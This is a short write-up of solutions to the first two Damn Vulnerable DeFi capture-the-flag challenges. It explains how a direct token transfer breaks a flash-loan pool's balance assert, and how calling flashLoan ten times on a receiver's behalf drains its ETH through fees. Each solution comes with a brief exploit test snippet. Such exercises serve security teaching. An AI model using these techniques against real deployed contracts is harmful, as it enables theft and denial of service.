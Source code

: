 # DamnVulnerableDefi

## Challenge #1 - Unstoppable 

To stop the pool from offering flash loans the assert statement in the flashloan function needs to be exploited. This can be done via sending
tokens to the contract by not using the depositTOken function. This way ```poolBlanace``` will never be equal to ```balanceBefore```.

Add these lines to unstopabble.challenge.js:
```
 it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).transfer(this.pool.address, 1);
    });
```

## Challenge #2 - Naive receiver

To drain all ETH funds from the user's contract , the contract must borrow a flash loan 10 times so that it has to pay a fee of 1ETH everytime.
SInce there's no restriction on the flashLoan function it can be called by anyone. Calling it 10 times does the job.

Add these lines to naive-receiver.challenge.js:
``` 
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        for (let i = 0; i < 10; i++) {
            await this.pool.connect(attacker).flashLoan(this.receiver.address,0);
        }        
        
    });
```
